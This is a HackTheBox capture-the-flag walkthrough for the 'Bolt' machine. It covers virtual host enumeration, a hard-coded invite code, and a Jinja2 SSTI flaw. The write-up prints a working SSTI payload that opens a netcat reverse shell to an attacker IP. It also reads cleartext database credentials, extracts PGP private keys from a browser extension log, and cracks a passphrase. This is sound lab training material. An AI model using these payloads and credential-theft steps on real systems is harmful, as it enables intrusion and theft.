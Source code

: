 # HACKTHEBOX: Bolt
Bolt is a medium difficulty box. It involves downloading a docker container image from `http://bolt.htb` containing source code with a hard-coded invite link to create an account on `http://demo.bolt.htb` and `mail.bolt.htb`. The source code also shows that the web application may be vulnerable to SSTI.
After creating an account, an attacker can exploit the SSTI vulnerability on the demo server's *update user profile* page to gain access to the box.
The user has a Passbolt account with private PGP keys. After obtaining the PGP keys, an attacker can obtain credentials for root by accessing the Passbolt password manager on `http://passbolt.bolt.htb`.

## Recon and Enumeration
An initial nmap scan shows the hostname `passbolt.bolt.htb`. Add `bolt.htb` and `passbolt.bolt.htb` to `/etc/hosts`.
![nmap scan](screenshots/nmap.png)

Visiting `http://bolt.htb` brings a user to this page.
![bolt.htb page](screenshots/bolt.png)

The Downloads page of the site shows a download for a docker container image.
![docker image download](screenshots/dockerimage.png)

![image.tar contents](screenshots/imagecontents.png)

Each folder has a tarball. After digging through and extracting these tarballs, there is some interesting information, but we'll come back to that later.

Use ffuf to discover virtual hosts. The names `demo.bolt.htb` and `mail.bolt.htb` were found.
![ffuf output](screenshots/bolt_ffuf.png)

##### Creating an account on demo.bolt.htb
Visiting the demo page automatically redirects to login with an option to create an account. `http://demo.bolt.htb/register` prompts a user to provide a username, password, email, and an *invite code*.
![login](screenshots/login.png)
![register](screenshots/register.png)

Run `grep -r 'invite'` to search for any invite codes in the docker container image. There are two python files: `forms.py` and `routes.py`.
![grep invite](screenshots/grep_invite.png)

After looking at both, we find that the invite code is hard-coded in the file `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/base/routes.py`.
![invite code](screenshots/invitecode.png)

Create an account using the invite code `XNSS-HSJW-3NGU-8XTJ`.
![registration](screenshots/registration.png)

After account creation, you can sign in to both `demo.bolt.htb` and `mail.bolt.htb` with the creds created on registration.
![signin](screenshots/signin.png)

##### Reviewing source code and discovering potential SSTI

After reading the source code, the directory `app/base` contains the contents of the login pages, while the sibling directory `app/home` contains the source of a regular user's profile page.
![routes](screenshots/routes.png)

After looking at the sibling source code, `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/home/routes.py` contains some interesting functionality. The function `profile` allows a user to input name, experience, and skills, then sends the user an email with the subject "Please confirm profile changes".
![profile](screenshots/profile.png)
Next, the function `confirm_changes` may be vulnerable to SSTI because it uses the `render_template_string` function on the variable *name* which may or may not be validated/sanitized.
![render template string](screenshots/render_template_string.png)

As an alternative to an extensive source code review, it may be a good idea to simply grep for the potentially dangerous function `render_template_string` to search for any possibilities of SSTI. Running the command `grep -r 'render_template_string'` shows that there is only `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/home/routes.py` calls the function.
![grep ssti](screenshots/grep_ssti.png)

## Exploitation and user.txt
The vulnerable form is in the `name` parameter in the settings tab of `http://demo.bolt.htb/admin/profile` and this can be tested with a simple `{{7*7}}` payload.
![ssti poc](screenshots/ssti_test.png)

After submitting, confirm the action with an email verification at `http://mail.bolt.htb` and we can see the payload successfully evaluated to `49`.
![email verification](screenshots/verification.png)
![successful ssti test](screenshots/success_test.png)

PayloadsAllTheThings has a nice list of SSTI payloads. We can abuse SSTI to get remote code execution and a reverse shell.
![ssti payload template](screenshots/ssti_payload.png)

Using this ssti template, craft a payload to replace `id` with a netcat reverse shell: \
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.32 9001 >/tmp/f').read() }}`
![ssti exploit](screenshots/exploit.gif)

Next, Upgrade the shell with
```
$ python -c "__import__('pty').spawn('/bin/bash')"
CTRL-Z
stty -echo raw
fg
export TERM=linux
www-data@bolt:~/demo$
```
![shell upgrade](screenshots/shell.png)

Earlier in the initial recon stages, we discovered a passbolt server, which is a password manager. Passbolt happens to store cleartext database credentials in the file `/etc/passbolt/passbolt.php`
![plaintext creds](screenshots/passbolt_creds.png)

We can also discover the passbolt server's public and private keys inside of `/etc/passbolt/gpg/`. Download these keys for later use.
![server keys](screenshots/getkeys.png)

The passbolt credentials also happen to be the credentials for user `eddie`.
![eddie](screenshots/eddie.png)

## Privilege Escalation and root.txt
Eddie has email. The mail notes that the passbolt password manager has a web browser extension.
![email](screenshots/mailforeddie.png)

After a quick google search, it turns out that passbolt has a cli to interact with the API https://github.com/passbolt/passbolt_cli. Passbolt CLI requires PGP keys for the client and the server. We already found the server PGP keys, now we need to search for eddie's PGP keys.

After running linpeas as Eddie, we find the location of google chrome's extension info.
![linpeas](screenshots/linpeas.png)

A simple grep command reveals PGP keys in the file `/home/eddie/.config/google-chromeDefault/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log`
![private key](screenshots/goturkeys.png)

Simply copy and paste the public and private PGP keys from this file.
![copied](screenshots/privatekey_log.png)
![got the keys](screenshots/allfour.png)

Now that we have retrieved the public and private keys for eddie and the server, we can run Passbolt CLI to retrieve creds.

Import the server keys into the GPG keyring.
![import the server keys](screenshots/importserver.png)

Next, try to import Eddie's keys. Unfortunately, we need a passphrase to import the private key. Eddie's password found earlier does not work.
![fail to import eddie keys](screenshots/importfail.png)

We can use John the Ripper to brute force the passphrase with the rockyou wordlist. The passphrase is `merrychristmas`.
![john the ripper](screenshots/john.png)

We can finally import eddie's PGP keys.
![imported eddie keys](screenshots/merrychristmas.png)

After importing the PGP keys, list the fingerprints with `gpg --list-keys`
![fingerprints](screenshots/fingerprints.png)

Use these fingerprints to configure Passbolt CLI.
![config](screenshots/config.png)

Passbolt is now configured, and you can now retrieve credentials from the passbolt server.
![privesc](screenshots/privesc.gif)
